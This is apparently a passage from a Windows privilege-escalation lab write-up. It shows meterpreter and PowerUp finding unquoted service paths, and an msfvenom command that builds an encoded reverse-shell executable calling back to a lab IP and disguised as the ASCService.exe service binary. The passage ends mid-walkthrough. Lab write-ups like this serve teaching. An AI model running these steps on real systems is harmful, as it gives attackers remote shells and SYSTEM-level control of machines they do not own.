 meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > power_shell
[-] Unknown command: power_shell.
meterpreter > powershell_shell
PS > 

PS > . ./PowerUp.ps1
PS > Invoke-AllChecks

(...)

[*] Checking for unquoted service paths...

ServiceName   : AdvancedSystemCareService9
Path          : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -Path <HijackPath>

ServiceName   : AWSLiteAgent
Path          : C:\Program Files\Amazon\XenTools\LiteAgent.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AWSLiteAgent' -Path <HijackPath>

ServiceName   : IObitUnSvr
Path          : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'IObitUnSvr' -Path <HijackPath>

ServiceName   : LiveUpdateSvc
Path          : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'LiveUpdateSvc' -Path <HijackPath>




On utilise `msfvenom` to generate a reverse shell as an Windows executable.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.28.128 LPORT=9001 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

```sh
meterpreter > powershell_shell
```

```ps1
PS > Get-Service 'AdvancedSystemCareService9'

Status   Name               DisplayName
------   ----               -----------
Running  AdvancedSystemC... Advanced SystemCare Service 9
```

```ps1
Get-WmiObject win32_service | ?{$_.Name -like 'AdvancedSystemCareService9'} | select PathName

PathName
--------
C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
```
